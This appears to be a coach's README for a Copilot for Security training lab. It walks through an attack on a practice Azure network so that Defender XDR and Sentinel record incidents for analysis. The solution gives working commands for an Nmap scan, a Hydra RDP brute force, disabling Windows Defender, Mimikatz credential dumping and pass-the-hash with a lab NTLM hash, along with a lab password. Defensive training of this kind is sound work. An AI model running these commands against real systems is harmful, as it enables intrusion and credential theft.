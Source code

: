 # Hacking Game on Copilot for Security Coach

## Setup instructions

1. Download files from the Setup folder.

2. Start Azure CloudShell.

3. Upload files downloaded from Setup folder to CloudShell. 

4. If you have many subscriptions, set the subscription where you are going to deploy the environment. For this, you can use the cmd "AZ-SetContext".
    
    ```powershell
    Set-AzContext -SubscriptionId "79c2a240-1a7f-482f-a315-xxxxxxxxx"
    ```

    >**Warning**: **You have to be sure that the Auto-provisioning of Defender for Server is not enabled on your subscription**

5. Run the script deploy.ps1
  
   >**Note**: Don't worry about Warning messages

6. Once the deployment is done, share with attendees information about hack-vm that you get on the output section:
    - IPAddress
    - Login
    - Password 

## Solution

1. Connect to the hack-vm using RDP. Your coach will provide you with the Public IP address and credentials.

2. Use a tool from the toolbox to discover the private IP address of the workstation-vm.
    
    a. Download and install Nmap from "https://nmap.org/download.html"
    
    b. Run Nmap to scan the local network of hack-vm 10.0.0.0/24
    
    c. In the result you can see that the port rdp 3389 is open on the vm 10.0.0.100
    
    ![nmap](./images/nmap.jpg)
 
3. Use a tool from the toolbox to find the login and password that will allow you to connect to the workstation-vm using RDP.

    a. Download Hydra application from https://github.com/maaaaz/thc-hydra-windows

    b. Download username.txt and password.txt files 

    c. Using Hydra application run a brute force attack on rdp port of the vm 10.0.0.100.         
  
      ```powershell
    .\hydra.exe -t 4 -V -f -L .\username.txt -P .\password.txt rdp://10.0.0.100
    ```
    
    d. After some attempts, the application will stop and you can see, the login and the password that have worked
    
    - Login: johnson
    
    - Password: P@ssw0rd1984
    
    ![hydra](./images/hydra.jpg)
    
4. Connect to the workstation-vm using RDP and the login and password found in step 3.

5. Discover the IP address of the domain controller.  

    ```cmd
      nslookup
      > set type=all
      > _ldap._tcp.dc._msdcs.contoso.com
    ```
    
     ![dc](./images/dc.jpg)
    
    >**Note**: You can help attendees with this link https://support.avigilon.com/s/article/Windows-How-to-Get-the-IP-Port-Used-and-IP-Addresses-of-Domain-Controllers-AD-Servers?language=en_US

6. Use a tool from the toolbox, (a) to find the login and password hash of the Domain Admin then (b) to connect to the domain controller using RDP.

    a. Disable "Real-time Protection", "Cloud-delivered protection" and "Automatic sample submission" in Windows Security
    
    ![win-sec](./images/windows-security.jpg)
    
    b. Download mimikatz application from https://github.com/ParrotSec/mimikatz
    
    c. Run Mimikatz, then run the following commands:
    
    ```powershell
   .\mimikatz.exe
    mimikatz # privilege::debug
    mimikatz # sekurlsa::logonpasswords
    ```
              
    d. Find the password hash of the domain Admin "dcadmin"
    
    ![mimikatz](./images/mimikatz.jpg)
    
    e. Run this command in Mimikatz to connect to Domain controller using RDP
    
    ```powershell
    sekurlsa::pth /user:dcadmin /domain:contoso /ntlm:95771f22bc8fe09f0cb74443495bb587 /run:"mstsc.exe /restrictedadmin"
    ```
    
    f. Introduce the IP address of the domain controller "10.0.1.250" in Computer parameter on MSTC application 
    
    ![win-sec](./images/mstc.jpg)

>**Note**: Don't modify the "user name" parameter

6. Connecting Sentinel into Defender XDR (Preview)

    a. Microsoft Sentinel is now available as part of the public preview for the Unified Security operations platform in the Microsoft Defender XDR portal. Refer to this documentation https://learn.microsoft.com/en-us/azure/sentinel/microsoft-sentinel-defender-portal on how to connect Microsoft Sentinel to Microsoft Defender XDR.

    ![nmap](./images/xdr-sentinel-defender-portal.jpg)

    b. Go to https://security.microsoft.com (Defender XDR portal) on the left select pane: Investigation & Response - Incidents & Alerts - Incidents.

    c. Validate incident data created from previous sections are showing up.

8. Implementation of Copilot for Security Steps without the Azure Portal

    a. Read Learn documentation https://learn.microsoft.com/en-us/training/modules/security-copilot-getting-started/6-describe-how-to-enable-security-copilot for general implementation information

    b. Go to https://securitycopilot.microsoft.com

    c. When "Create a Security capacity" window pops-up select the following

    ![nmap](./images/cfs-create-wizard.jpg)

    d. Azure Subscription - select your subscription. For example "Azure Pass - Sponsorship"

    e. Resource group - select any RG can be used or select "Create a new one"

    f. Capacity name - type any unique name here

    g. Prompt evaluation location - use any of the available locations

    h. Capacity region - this field should be populated from the previous option

    i. Security compute units - 1 SCU seem to be enough (this can be changed in the Azure Portal). Also it this seems to be $4/hour

    >**Note**: In April 2024, Copilot for Security (CFS) and Security Compute Units can consume a sizeable amount of Azure Credits. Please check your Azure Cost Management for more details.

    j. Acknowledge Terms and Conditions checkbox

    k. Select "Create"

    l. Once complete Copilot for Security is live with the "promptbar" at the bottom of the screen

    ![nmap](./images/cfs-promptbar.jpg)

9. Validation of Copilot for Security (CFS) embedded experience in Defender XDR

    a. Go to https://security.microsoft.com (Defender XDR portal) on the left select pane: Investigation & Response - Incidents & Alerts - Incidents.

    b. Select an incident and Copilot for Security embedded experience shows up.

   ![nmap](./images/cfs-xdr-sentinel.jpg)
   
## Clean up

1. Run the script delete.ps1
   
3. Clean up Copilot for Security (CFS)

   a. Log on to https://portal.azure.com
   
   b. Navigate to the Copilot of Security Resource group
   
   c. Delete the resource group to stop Azure Credit charges
